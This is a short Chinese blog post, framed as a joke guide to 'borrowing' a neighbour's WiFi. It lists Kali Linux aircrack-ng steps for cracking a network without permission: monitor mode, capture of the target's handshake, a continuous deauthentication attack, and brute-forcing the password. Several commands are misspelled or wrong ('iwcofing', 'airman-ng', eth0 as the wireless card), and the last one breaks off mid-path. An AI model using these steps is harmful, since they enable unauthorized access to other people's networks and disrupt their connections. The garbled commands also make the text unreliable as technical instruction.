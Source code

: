 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress eth0
</pre>
7. ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

8. 暴力破解：aircrack-ng outfile1.cap -w /